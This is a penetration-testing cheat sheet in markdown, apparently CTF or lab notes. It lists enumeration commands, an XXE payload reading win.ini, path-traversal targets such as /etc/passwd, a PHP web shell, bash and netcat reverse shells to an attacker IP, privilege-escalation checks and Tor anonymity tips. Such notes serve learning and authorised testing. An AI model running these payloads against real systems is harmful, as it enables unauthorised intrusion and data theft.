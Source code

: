 # Target enumeration

## Remote
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)
2. Webservers
    - Spider website (e.g. using Burp Suite Proxy without intercept)
    - Enumerate subdomains and dirs (e.g. with `gobuster`)
    - Vulnerabilities with OWASP
    - Enumerate login forms
        - `hydra -L <file> -P <file>`
    - XSS, SQL-Injection
    - XXE/XEE
        - `<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>`
    - Path traversal
        - .htpasswd
        - /etc/passwd
        - /etc/group
3. Monitor TCP/IP traffic (e.g. LDAP) `sudo tcpdump -i tun0 port 389`

## On site
1. Processes
    - `ps aux`
2. Ports
    - `ss`
    - `netstat -tunlp`
        - `-t` (TCP)
        - `-u` (UDP)
        - `-n` (No service resolution)
        - `-l` (Only listening)
        - `-p` (Process info)

    - `lsof`
3. File system
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - .ssh folder
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/


# Remote code execution
1. Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - `/usr/share/webshells/php/php-reverse-shell.php`, `<?php echo system($_REQUEST['cmd']);?>`
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
    - Windows: use `nc64.exe -e cmd.exe <my ip> <port>`


# Privilege escalation
1. User permissions: `whoami`, `id`, `sudo -l` or Windows `whoami /priv`, `icacls`
2. User groups
    - `lxd`: Containers
3. Windows: `impacket-psexec`


# Password cracking
1. Use Google as Rainbow Table


# Privacy
1. Tails
2. Proxychains with TOR